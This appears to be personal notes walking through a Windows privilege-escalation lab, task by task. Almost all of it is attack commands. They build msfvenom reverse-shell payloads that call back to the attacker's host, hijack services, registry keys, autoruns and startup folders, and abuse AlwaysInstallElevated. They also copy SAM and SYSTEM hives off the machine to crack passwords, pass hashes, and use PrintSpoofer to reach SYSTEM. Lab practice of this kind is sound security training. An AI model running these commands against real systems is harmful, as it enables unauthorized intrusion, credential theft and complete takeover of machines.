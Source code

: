### Kali
      msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.2.45.46 LPORT=53 -f exe -o reverse.exe
      sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
### windows
      copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe
### kali
      sudo nc -nvlp 53
windows test with 
C:\PrivEsc\reverse.exe

TASK 3 
C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc
Sc qc daclsvc [ see it runs with system priv ]
sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\"" [ modify so it runs ]
net start daclsvc

Q1: C:\program files\dacl service\daclservice.exe
Task 4
Sc qc unquotedsvc
C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\" [ can write to directory ]

copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe" [ copy reverse shell and name it common ]
Q1: C:\program files\unquoted path service\common files\unquotedpathservice.exe
Task 5
sc qc regsvc
C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc

Overwrite registry key 
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
Task 6
sc qc filepermsvc [system]
C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe" [writeable by everyone]
copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y [replace file]
Task 7
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run [query autorun]
C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe" [wrietable by all]
copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y [overwrite exe]
rdesktop 10.10.251.127

Task 8
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated [ query for AlwaysInstall keys]
on Kali 
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f msi -o reverse.msi 
Transfer the reverse.msi file to the C:\PrivEsc directory on Windows (use the SMB server method from earlier).
Start listener on kali
msiexec /quiet /qn /i C:\PrivEsc\reverse.msi

Task 9
reg query HKLM /f password /t REG_SZ /s
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
password123
on kali 
winexe -U 'admin%password' //10.10.251.127 cmd.exe

Task 10
cmdkey /list [ list saved creds]
on kali
runas /savecred /user:admin C:\PrivEsc\reverse.exe [ using runas users saved creds

Task 11
Transfer Sam and System files to kali VM 
copy C:\Windows\Repair\SAM \\10.2.45.46\kali\
copy C:\Windows\Repair\SYSTEM \\10.2.45.46\kali\

on kali
git clone https://github.com/Neohapsis/creddump7.git
sudo apt install python-crypto
python2 creddump7/pwdump.py SYSTEM SAM
put those in a file then john dump –-format=nt
Task 12
Authenticate using the hash
pth-winexe -U 'admin%hash' //10.10.251.127 cmd.exe
Task 13 
type C:\DevTools\CleanUp.ps1 [ view contents of script ]
C:\PrivEsc\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1
echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1
start listener on kali
Task 14 
rdesktop -u user -p password321 10.10.251.127
tasklist /V | findstr mspaint.exe
In Paint, click "File" and then "Open". In the open file dialog box, click in the navigation input and paste: file://c:/windows/system32/cmd.exe

Task 15
C:\PrivEsc\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp" [users can write to startup ]
Using cscript, run the C:\PrivEsc\CreateShortcut.vbs script which should create a new shortcut to your reverse.exe executable in the StartUp directory:
cscript C:\PrivEsc\CreateShortcut.vbs
listener on kali then
rdesktop -u admin 10.10.251.127


Task 16
SeImpersonatePrivilege
SeAssignPrimaryTokenPrivilege 


Task 17
Start a listener on Kali. Simulate getting a service account shell by logging into RDP as the admin user, starting an elevated command prompt (right-click -> run as administrator) and using PSExec64.exe to trigger the reverse.exe executable you created with the permissions of the "local service" account:
C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe
Start another listener on Kali.
Now, in the "local service" reverse shell you triggered, run the PrintSpoofer exploit to trigger a second reverse shell running with SYSTEM privileges (update the IP address with your Kali IP accordingly):
C:\PrivEsc\PrintSpoofer.exe -c "C:\PrivEsc\reverse.exe" -i

Task 18 
Several tools have been written which help find potential privilege escalations on Windows. Four of these tools have been included on the Windows VM in the C:\PrivEsc directory:
winPEASany.exe
Seatbelt.exe
PowerUp.ps1
SharpUp.exe
